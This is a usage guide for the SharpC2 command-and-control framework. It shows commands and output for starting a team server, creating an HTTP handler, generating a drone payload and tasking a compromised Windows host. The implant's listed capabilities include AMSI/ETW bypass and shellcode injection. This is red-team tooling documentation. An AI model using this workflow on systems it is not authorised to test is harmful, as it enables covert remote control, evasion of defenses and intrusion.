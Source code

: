 # Basic Usage

## Start the Team Server

Launch the team server and provide a shared password that will be used by users to connect.  Make sure you run as root/admin if you want to bind handlers to low ports (e.g. port 80 for the HTTP handler).


```text
rasta@Rastas-MBP ~/S/T/b/R/n/o/publish (main)> sudo ./TeamServer -p Passw0rd!
info: Microsoft.Hosting.Lifetime[14]
      Now listening on: https://0.0.0.0:8443
info: Microsoft.Hosting.Lifetime[0]
      Application started. Press Ctrl+C to shut down.
info: Microsoft.Hosting.Lifetime[0]
      Hosting environment: Production
info: Microsoft.Hosting.Lifetime[0]
      Content root path: /Users/rasta/SharpC2/TeamServer/bin/Release/net6.0/osx-x64/publish
```

The team server will listen for user connections on port 8443 by default.  This can be changed in `appsettings.json`.
If the `ASPNETCORE_ENVIRONMENT` environment variable is set to `Development`, the team server's management interface will be bound to localhost only.  Set this to `Production` to have it listen on all interfaces.

## Start the Client

The client requires several command line options including `-s` (--server), `-p` (--port), `-n` (--nick) and `-P` (--password). You'll be prompted to accept the server's self-signed certificate unless `-i` (--ignore-ssl) is used.

```text
rasta@Rastas-MBP ~/S/C/b/R/n/o/publish (main)> ./SharpC2 -s localhost -p 8443 -n rasta -P Passw0rd! -i
  ___ _                   ___ ___ 
 / __| |_  __ _ _ _ _ __ / __|_  )
 \__ \ ' \/ _` | '_| '_ \ (__ / / 
 |___/_||_\__,_|_| | .__/\___/___|
                   |_|            
    @_RastaMouse                  
    @_xpn_                        


[drones] >
```

## Configure and Start a Handler

In SharpC2, "handlers" are akin to listeners in other frameworks.  SharpC2 handlers can do more than just "listen" for incoming data, which is why I elected to use different terminology.

The `[drones]` screen is the default for the client.  You can type `help` on any screen to see commands contextual to that screen.

```text
[drones] > help

Name          Description
----          -----------
credentials   Manage credentials
exit          Exit this client
handlers      Manage Handlers
help          Print a list of commands and their description
hide          Hide an inactive Drone.
hosted-files  Manage hosted files
interact      Interact with a Drone
list          List Drones
payload       Generate a payload
```

SharpC2 ships with three handler types. HTTP, TCP and SMB.  Use the `create` command to create a new handler.
`Usage: create <name> <type>`.

```text
[handlers] > create demo-http HTTP
[+] Handler "demo-http" created.
```

Use the `set` command to set parameters for a handler.
`Usage: set <handler> <parameter> <value>`.

```text
[handlers] > set demo-http ConnectAddress 192.168.1.105
[+] ConnectAddress set to 192.168.1.105
```

A handler can then be started and stopped using the `start` and `stop` commands respectively.

```text
[handlers] > start demo-http
[+] Handler "demo-http" started.

[handlers] > stop demo-http
[+] Handler "demo-http" stopped.
```

## Generate a Payload

Payloads can be generated from the `[drones]` screen, using the `payload` command.

```text
[drones] > payload demo-http Exe /tmp/http-drone.exe
[+] 164352 bytes saved.
```

## Interacting with Drones

```text
[+] Drone a47153bd55 checked in from IEUser@MSEDGEWIN10.

[drones] > list

Guid        Parent  Address      Hostname     Username  Process     Pid   Integrity  Arch  LastSeen
----        ------  -------      --------     --------  -------     ---   ---------  ----  --------
a47153bd55  -       10.211.55.6  MSEDGEWIN10  IEUser    http-drone  7860  Medium     x64   18/12/2021 17:30:16
```

To interact with a Drone, use `interact <guid>`.

```text
[drones] > interact a47153bd55
[a47153bd55] > help

Name              Description
----              -----------
abort             Abort a running task
back              Go back to the previous screen
bypass            Set a directive to bypass AMSI/ETW on tasks
cat               Read a file as text
cd                Change working directory
execute-assembly  Execute a .NET assembly
exit              Exit this Drone
getuid            Get current identity
help              Print a list of commands and their description
link              Link to an SMB Drone
load-module       Load an external Drone module
ls                List filesystem
mkdir             Create a directory
overload          Map and execute a native DLL
ps                List running processes
pwd               Print working directory
rm                Delete a file
rmdir             Delete a directory
run               Run a command
services          List services on the current or target machine
shell             Run a command via cmd.exe
shinject          Inject arbitrary shellcode into a process
sleep             Set sleep interval and jitter
upload            Upload a file to the current working directory of the Drone
```

```text
[a47153bd55] > getuid
[+] Tasked Drone to run getuid.
[+] Drone checked in.  Sent 176 bytes.
[+] Drone task 57582950c7 is running.

GHOST-CANYON\Daniel

[+] Drone task 57582950c7 has completed.
```